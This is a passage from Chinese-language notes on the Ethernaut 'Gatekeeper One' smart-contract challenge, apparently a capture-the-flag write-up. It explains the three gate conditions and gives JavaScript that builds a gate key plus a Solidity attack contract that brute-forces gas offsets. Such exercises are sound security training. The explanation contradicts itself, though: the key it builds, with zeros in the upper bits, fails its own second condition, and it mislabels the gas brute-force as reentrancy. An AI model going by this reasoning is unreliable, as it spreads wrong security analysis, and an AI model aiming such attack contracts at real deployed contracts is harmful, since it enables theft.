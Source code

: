 条件 1: uint32(uint64(_gateKey)) == uint16(uint64(_gateKey))
将 _gateKey 转换为 64 位无符号整数后，取前 32 位和前 16 位，它们的值必须相同。
解释：
_gateKey 的高位 48 位必须为 0，这样前 32 位和前 16 位会完全相同。
例如：_gateKey = 0x000000000000ABCD。
条件 2: uint32(uint64(_gateKey)) != uint64(_gateKey)
将 _gateKey 转换为 64 位无符号整数后，前 32 位和完整 64 位的值不能相同。
解释：
_gateKey 的低位 32 位不能全是 0，否则前 32 位和完整 64 位会相同。
例如：_gateKey = 0x00000000XXXXXXXX，其中 XXXXXXXX 不为 0。
条件 3: uint32(uint64(_gateKey)) == uint16(tx.origin)
_gateKey 的前 16 位必须等于你的外部账户地址的最后 2 字节。
解释：
tx.origin 是你的外部账户地址。
地址是 20 字节（160 位），最后 2 字节就是地址的低位 16 位。
```js
const txOrigin = web3.eth.defaultAccount; // 你的外部账户地址
const keyPart = txOrigin.slice(-4); // 获取地址最后 4 个字符（2 字节）
const gateKey = `0x000000000000${keyPart}`; // 构造 _gateKey
```
3. 设计攻击合约
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract GatekeeperOneAttack {
    address public target;

    constructor(address _target) public {
        target = _target;
    }

    function attack(bytes8 _gateKey) public {
        for (uint256 i = 0; i < 8191; i++) {
            (bool success, ) = target.call{gas: i + 8191 * 3}(
                abi.encodeWithSignature("enter(bytes8)", _gateKey)
            );
            if (success) {
                break;
            }
        }
    }
}
```

学习要点：
- 理解 GateKey 的设计原理
- 使用 for 循环来反复攻击到gasleft() % 8191 == 0， call 函数进行重入攻击
- 了解 msg.sender 和 tx.origin 的区别

## 14. Gatekeeper Two ✅ [Hard]
